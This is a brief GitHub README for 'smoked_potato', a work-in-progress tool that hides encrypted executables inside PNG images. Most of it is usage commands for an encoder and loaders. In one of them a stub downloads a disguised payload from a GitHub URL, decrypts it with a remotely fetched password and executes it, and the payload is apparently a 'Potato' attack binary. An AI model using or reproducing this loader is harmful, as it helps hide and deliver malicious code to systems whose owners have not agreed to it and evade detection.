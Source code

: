 # smoked_potato
Encrypted binaries inside images... work in progress will be removed soon.

encoder.exe picture.png net_binary.exe pass urlpass/filepass offset output.png

loader.exe url password png_offset pass_offset program_args

stub_write.exe pots.png .\potato_64.exe hellothare https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm 1995 debug

stub_load.exe https://github.com/vvalien/smoked_potato/raw/master/potato hellothare 6208 1995 mypotato_options go_here however_many you_want

It will use https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm as the password
